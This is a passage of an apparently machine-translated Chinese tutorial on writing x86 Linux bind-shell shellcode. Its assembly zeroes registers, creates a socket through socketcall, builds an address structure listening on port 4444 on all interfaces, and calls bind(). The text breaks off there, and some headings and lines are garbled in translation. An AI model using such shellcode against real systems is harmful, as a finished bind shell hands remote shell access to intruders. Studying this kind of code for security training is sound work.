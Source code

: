 ## **初始化**

首先，让我们将我们要使用的一些寄存器清零:

```
global _startsection     .text_start:xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx
```

## **插座()**

让我们创建`socket()`外壳代码:

```
**; 1) Socket Creation
; sockfd = socket(AF_INET, SOCK_STREAM, 0);**mov al, 0x66    ; #define __NR_socketcall 102   --> Hex: 0x66
mov bl, 0x1     ; #define SYS_SOCKET 1
push edx        ; int protocol = 0
push ebx        ; int SOCK_STREAM = 1
push 0x2        ; int AF_INET = 2
mov ecx, esp    ; Move stack pointer to ECX
int 0x80        ; Execute SYS_SOCKET
mov edi, eax    ; Save the sockfd to EDI
```

## **服务器地址结构**

让我们创建服务器地址`struct`外壳代码:

```
**;   struct sockaddr_in addr;
;   addr.sin_family = AF_INET; 
;   addr.sin_port = htons(port);    //4444
;   addr.sin_addr.s_addr = INADDR_ANY;**push edx          ; NULL Padding
push edx          ; NULL Padding
push edx          ; sin_addr = 0.0.0.0
push word 0x5c11  ; port = 4444
push word 0x2     ; int AF_INET = 2
mov esi, esp      ; Move stack pointer to ESI
```

## **Bind()**

让我们创建`bind()`外壳代码:

```
**; 2) Bind
; bind(sockfd, (struct sockaddr *) &addr, sizeof(addr));**mov al, 0x66    ; socketcall = 102
mov bl, 0x2     ; #define SYS_BIND  2
push 0x10       ; sizeof(addr) = 10
push esi        ; ESI = Server Address struct
push edi        ; EDI = sockfd
mov ecx, esp    ; Move stack pointer to ECX
int 0x80        ; Execute SYS_BIND
```
